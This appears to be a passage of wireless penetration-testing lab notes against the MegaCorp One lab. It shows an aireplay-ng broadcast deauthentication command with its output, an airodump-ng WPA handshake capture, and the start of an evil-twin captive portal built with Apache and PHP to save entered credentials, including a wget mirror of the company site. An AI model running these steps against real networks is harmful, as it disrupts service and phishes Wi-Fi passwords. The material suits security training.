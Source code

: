 Deauthenticating Clients:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon
16:24:14  Waiting for beacon frame (BSSID: 00:0E:08:90:3A:5F) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
16:24:14  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:15  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:15  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:16  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:16  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:17  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:17  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:18  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:18  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
16:24:19  Sending DeAuth (code 7) to broadcast -- BSSID: [00:0E:08:90:3A:5F]
...
```
{% endcode %}

Discovery via Airodump-ng, capturing the handshake:

{% code overflow="wrap" %}
```bash
CH 12 ][ Elapsed: 0 s ][ 2020-09-14 16:23 ][WPA handshake:  00:0E:08:90:3A:5F ]

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:0E:08:FA:47:CD  -51        9        2    0   6  205   WPA2 CCMP   MGT  MegaCorp One
 00:0E:08:75:69:78  -70        7        0    0   1  178   OPN              MegaCorp One Guest
 00:0E:08:90:3A:5F  -75       12        0    0  11  225   WPA2 CCMP   PSK  MegaCorp One Lab
 ...
```
{% endcode %}

### Building the Captive Portal

To build our captive portal, we'll use apache and php scripts to save credentials the user enters. Starting off with installing Apache and PHP:

{% code overflow="wrap" %}
```bash
kali@kali:~$ sudo apt install apache2 libapache2-mod-php
...
```
{% endcode %}

Downloading MegaCorp One index page and its resources. **-r** will download recursively, and **-l2** will go two levels deep:

{% code overflow="wrap" %}
```bash
kali@kali:~$ wget -r -l2 https://www.megacorpone.com
--2020-09-10 20:00:24--  https://www.megacorpone.com/
Resolving www.megacorpone.com (www.megacorpone.com)... 3.220.87.155
Connecting to www.megacorpone.com (www.megacorpone.com)|3.220.87.155|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14603 (14K) [text/html]
Saving to: ‘www.megacorpone.com/index.html’

www.megacorpone.com/index.html                             100%[=======================================================================================================================================>]  14.26K  54.1KB/s    in 0.3s

2020-09-10 20:00:25 (54.1 KB/s) - ‘www.megacorpone.com/index.html’ saved [14603/14603]

```